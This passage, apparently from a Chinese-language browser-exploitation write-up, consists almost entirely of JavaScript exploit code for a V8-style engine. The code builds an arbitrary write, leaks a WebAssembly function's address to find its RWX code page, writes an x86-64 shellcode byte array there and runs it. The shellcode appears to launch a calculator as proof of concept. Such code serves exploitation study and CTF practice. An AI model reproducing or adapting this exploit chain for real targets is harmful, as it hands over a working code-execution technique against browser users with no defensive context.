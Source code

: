 ```javascript

//----- arbitrary write

function dataview_write(addr, payload)
{
	data_view.setFloat64(31, i2f(addr), true);
	var view_view = new DataView(view_buf);
	for(let i=0; i < payload.length; i++)
	{
		view_view.setUint8(i, payload[i]);
	}
}

function addrOfWasmObj(obj){
	data_buf.leakobj = obj;
	let mapAddr = dataview_read64(data_buf_addr-1);
	let instance_addr = dataview_read64(mapAddr + 0x2f);
	let objAddr = dataview_read64(instance_addr + 0x2f);
	return objAddr;
}

var wasm_function_addr = addrOfWasmObj(wasm_function);
console.log("[+] wasm_function_addr : 0x" + hex(wasm_function_addr));

var wasm_shared_info = dataview_read64(wasm_function_addr -1 + 0x20);
console.log("[+] find wasm_shared_info : 0x" + hex(wasm_shared_info));

var wasm_code = dataview_read64(wasm_shared_info -1 + 0x8);
console.log("[+] find wasm_code : 0x" + hex(wasm_code));

var wasm_rwx = wasm_code - 0x81 + 0xe0;
console.log("[+] find wasm_rwx : 0x" + hex(wasm_rwx));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_rwx, shellcode);

wasm_function();
```

运行效果图：

